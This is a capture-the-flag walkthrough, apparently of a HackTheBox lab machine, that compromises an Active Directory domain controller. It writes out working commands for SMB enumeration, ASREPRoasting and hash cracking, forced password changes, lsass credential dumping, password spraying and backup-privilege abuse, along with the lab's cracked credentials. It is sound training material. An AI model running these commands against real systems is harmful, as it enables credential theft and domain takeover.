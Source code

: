 ___
## Skills covered

- SMB Enumeration (Enumerating users via anonymous login)
- ASREPRoasting (Kerberos Pre-Authentication disabled)
- Lsass Process Dump Analysis
- Using WinRM Privileges
- Abusing Backup Operators Privileges
- Enumerating a domain using Bloodhound

___
## Tools used

- NMap
- SMBMap
- SMBClient
- Impacket Tools
- John
- Bloodhound
- RPCClient
- PyPyKatz
- LDAPSearch
- CrackMapExec

___
## Enumeration

Begin by running an `nmap` scan of the IP address.
`sudo nmap -sV -p- -A 10.10.10.192`

This scan indicates that port 53 (DNS), 389 (LDAP), and 445 (SMB) are open. The scan results also show the hostname is `DC01` and the related domain is `BLACKFIELD.LOCAL` Because of this, it is highly likely that this server is the domain controller for the `BLACKFIELD.LOCAL` domain.

As SMB port 445 is open, a good next step would to be check for anonymous/guest access, and attempt to map the shares if it is open.
`smbmap -H 10.10.10.192 -u guest`

The result of the `smbmap` scan shows that guest access **is available**. The scan also lists available shares and the associated privilege level. In this case, there are 2 non-default shares that have read access for the guest user - `profiles$` and `forensic`

The command `smbclient -N \\\\10.10.10.192\\profiles$ -c ls` will connect to the SMB service, and run the `ls` command on the `profiles$` share. This will list the files available on the share. After running this command, the output suggests the `profiles$` share contains the user directories for each user on the domain. Use the following command to extract all of these usernames and output them to a text file for later use. 
`smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' > users.txt`

## ASREPRoasting

After extracting a list of usernames from the server, it is a good idea to check for accounts with Kerberos Pre-Authentication disabled. If there are any found, it is possible to extract the password hash, which can then be bruteforced to uncover the user's password.

`GetNPUsers.py` from [Impacket](https://github.com/SecureAuthCorp/impacket) can be used to run this attack. The following command will iterate across the `users.txt` username list extracted from the `profiles$` share and attempt ASREPRoasting automatically.

`python3 GetNPUsers.py blackfield.local/ -no-pass -usersfile /home/kali/users.txt -dc-ip 10.10.10.192`

This will output mostly errors due to accounts not being found, or having pre-authentication enabled. However, the `support` account outputs a hash as seen below. This hash can now be bruteforced using either John or Hashcat and the `rockyou.txt` wordlist.

`$krb5asrep$23$support@BLACKFIELD.LOCAL:185afdd048d3b19c5059d658ff882ffc$fc62d426fa4af49ca9d138c055a69291de98454ae1fc224c5a45f7ef7515eb0ff6a516926957db3a5e1f25c6cfe9c00f5795ad416f369e324a506e2c05521db2541f3f40a040b910ca56af93d74d69b70f21dac55e0186158df78c05cb85e2bde124e467e9e74e850c9b8a1a2aa6ee46ac0b68e31c95b1f49c233876543d09acca6cff3eb1c84f7f5e73f46de443da8729028615087e7eaa0fc0b12fa5e58bbe9ab4fd5f38d0ae95d1da493e07c0c8d91a38e91c5f1f5fd7757786df8f1208c85f0ee9f8d9aee253e7a47bd426476162ac0a2d2ff74604b12113d4aa038fd2062267c576ad00365856948a13af70aaa42a722dcd`

Put this hash into a file, such as `~/hash.txt`. Then crack the hash using `john` and the `rockyou.txt` wordlist. (The wordlist may be compressed, decompress it using `gunzip`)

`john ~/hash.txt -w=/usr/share/wordlists/rockyou.txt`

`john` outputs that the password is `#00^BlackKnight`.

## Enumerating the domain using Bloodhound

If `bloodhound` is not already installed, it can be using:

```
sudo apt-get install bloodhound
pip3 install bloodhound
```

**NOTE:** `bloodhound` and `bloodhound-python` are different packages. Install them both.

Using the freshly extracted credentials, execute the `bloodhound-python` data collector using the following command

`bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly`

This will create multiple files:

```
20221124194526_computers.json
20221124194526_domains.json
20221124194526_groups.json
20221124194526_users.json
```

If this is the first launch of `bloodhound`, there are some prerequisites. Run the following commands, and then login to the database Web UI at `https://localhost:7474` using the credentials `neo4j / neo4j`

```
mkdir -p /usr/share/neo4j/logs
touch /usr/share/neo4j/logs/neo4j.log
sudo neo4j start
bloodhound
```

If this is not the first launch, just run `sudo neo4j start` and then `bloodhound`.

Drag and drop the files created by `bloodhound-python` into bloodhound to import the data. Begin analysis by searching for `support` (the account we have compromised) and right click it to mark as owned.

Click 'Raw Query' at the bottom of bloodhound and run the following query to search for objects in the 1st degree (i.e. 1 hop away) that our owned user can control.

`MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p`

This command shows that the owned `support` user can `ForceChangePassword` the `audit2020` user. This privilege can be abused using `rpcclient`.

`rpcclient -U blackfield/support 10.10.10.192`

Once connected, change the `audit2020` user password using the following command:

`setuserinfo audit2020 23 P@s5w0rd`

## Enumerating shares as the next user.

With the new `audit2020` account, new SMB privileges may have been exposed. This can be confirmed by running `smbmap` again as the  `audit2020` account. 

`smbmap -H 10.10.10.192 -u audit2020 -p P@s5w0rd`

`smbmap` shows that this account has read access to the forensic share, which was not available on the `support` account.

Connect to the SMB share with the following commands and `smbclient.py` from Impacket

```
python3 smbclient.py audit2020:'P@s5w0rd'@10.10.10.192
use forensic
```

There is a directory called `memory_analysis` containing a file called `lsass.zip`. At this point, it can be assumed that this is an lsass.exe dump, which will contain password hashes. Download `lsass.zip` using the following commands:

```
cd memory_analysis
ls
get lsass.zip
exit
```

Unzip `lsass.zip` and run [pypykatz](https://github.com/skelsec/pypykatz) on it.

```
pip3 install pypykatz
pypykatz lsa minidump lsass.DMP
```

This will provide a dump of password hashes. Assuming the account lockout policy is 0 (unlimited), a spray attack will allow us to attempt to find a combination of usernames and passwords to login. Lockout Policy can be tested using the following command:

```
ldapsearch -D 'BLACKFIELD\support' -w '#00^BlackKnight' -H "ldap://10.10.10.192" -b "dc=blackfield,dc=local" -s sub "*" | grep lockoutThreshold
```

This should return `lockoutThreshold: 0` if there is no lockout policy. This confirms a password spray attack is possible.

To extract the usernames and hashes from the `lsass.dmp` file, run the following commands:

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes

pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```

Then, to run the spray attack:

```
crackmapexec smb 10.10.10.192 -u users -H hashes
```

The password spray attack should return a hash that can used to attempt an Evil-WinRM session. It is always good to check if WinRM is enabled by using Evil-WinRM because this will immediately provide a shell as that user.

Running `whoami /priv` in this shell will show the users permissions. An important permission to note is `SeBackupPrivilege`. This permission can be abused using `robocopy` to copy the Administrator user folder to the C:/ drive.

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```